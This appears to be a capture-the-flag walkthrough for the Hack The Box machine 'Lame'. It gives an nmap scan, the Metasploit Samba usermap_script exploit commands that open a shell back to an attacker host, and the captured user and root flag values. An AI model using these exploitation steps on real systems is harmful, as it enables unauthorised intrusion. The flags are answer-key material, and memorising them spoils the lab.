



# Lame

## 1. Overview

### 1.1. Attacks

* Samba

### 1.2. Tools used

**Enumeration** &rarr; ``.

**Exploitation** &rarr; ``.

## 2. Walkthrough

### 2.1. Enumeration

#### 2.1.1. nmap
Search with `nmap`:

```bash
nmap -A -p- -T4 10.10.10.3
```

##### 2.1.1.1. Ports



* **Port: 21 (ftp)** &rarr; vsftpd 2.3.4
* **Port: 22 (ssh)** &rarr; Open SSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
* **Port: 139 (netbios-ssn)** &rarr; Samba smbd 3.X - 4.X
* **Port: 445 (netbios-ssn)** &rarr; Samba smbd 3.0.20-Debian
* **Port: 3632 (distccd)** &rarr; distccd v1

##### 2.1.1.2. Host Details




* **OS** &rarr; Linux 2.6.30 / Unix (Samba 3.0.20-Debian)
* **Computer name** &rarr; Lame
* **Smb-Security-Mode**
    * **Message_Signing** &rarr; disabled

Samba looks exploitable.

### 2.2. Exploitation

#### 2.2.1. Sources

**Google:** `samba Unix (Samba 3.0.20-Debian) exploit`

[[Rapid7] Samba "username map script" Command Execution ](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)

#### 2.2.2. Metasploit

```msf
msf5 > use exploit/multi/samba/usermap_script
msf5 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.7
LHOST => 10.10.14.7
msf5 exploit(multi/samba/usermap_script) > run
```

```bash
cat root/root.txt
92caac3be140ef409e45721348a4e9df

cat home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
```

* **Own User** &rarr; `69454a937d94f5f0225ea00acd2e84c5`
* **Own Root** &rarr; `92caac3be140ef409e45721348a4e9df`